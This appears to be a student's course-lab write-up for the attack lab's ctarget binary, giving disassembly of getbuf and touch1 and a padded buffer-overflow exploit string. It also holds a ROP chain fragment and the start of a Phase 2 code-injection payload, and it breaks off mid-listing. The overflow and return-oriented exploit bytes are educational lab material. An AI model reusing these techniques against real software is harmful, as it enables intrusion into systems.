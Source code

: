 ```
89 16 40 00 00 00 00 00 /* 8: lea (rdi,rsi,1),rax */
4f 16 40 00 00 00 00 00 /* 9: mov rax,rdi */
ab 15 40 00 00 00 00 00 /* 10: touch 3 address */
35 63 64 36 31 65 66 31 /* 11: cookie */
00
```
## Phase 1
```
0000000000401450 <getbuf>:
  401450:	48 83 ec 28          	sub    $0x28,%rsp
  401454:	48 89 e7             	mov    %rsp,%rdi
  401457:	e8 94 02 00 00       	callq  4016f0 <Gets>
  40145c:	b8 01 00 00 00       	mov    $0x1,%eax
  401461:	48 83 c4 28          	add    $0x28,%rsp
  401465:	c3                   	retq   

0000000000401466 <touch1>:
  401466:	48 83 ec 08          	sub    $0x8,%rsp
  40146a:	c7 05 08 e5 2e 00 01 	movl   $0x1,0x2ee508(%rip)        # 6ef97c <vlevel>
  401471:	00 00 00 
  401474:	48 8d 3d e1 08 0c 00 	lea    0xc08e1(%rip),%rdi        # 4c1d5c <_IO_stdin_used+0x27c>
  40147b:	e8 20 21 01 00       	callq  4135a0 <_IO_puts>
  401480:	bf 01 00 00 00       	mov    $0x1,%edi
  401485:	e8 d6 04 00 00       	callq  401960 <validate>
  40148a:	bf 00 00 00 00       	mov    $0x0,%edi
  40148f:	e8 dc f7 00 00       	callq  410c70 <exit>
```
  * Input a string S with 40 + 8 bytes = 48 bytes
  * First 40 bytes can be anything
  * Last 8 bytes have to point to touch1()
  * insert 40 bytes seperated by whitespace into text file.
  * `401466` is the address of touch1
  * insert into sol.txt file in reverse order seperated by whitespace.
  * text file should look something like this: 
    ```
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 /* padding */
    66 14 40 00 00 00 00 00 /* touch1 address */
    ```
  * now call hex2raw on text file and send output directly into ./ctarget, our first attack string is done.
    * `cat phase_1 | ./hex2raw | ./ctarget`

## Phase 2
  * open cookie.txt
    * copy address `0x5cd61ef1`
  * create a file called phase2.s
    * add the following assembly:
    ```
    mov $0x5cd61ef1, %rdi 
    ret
    ```
  * compile phase2.s
    * `gcc -c phase2.s`
  * get dissasembly of phase2.o:
    * `objdump -d phase2.o`
    ```
    phase2.o:     file format elf64-x86-64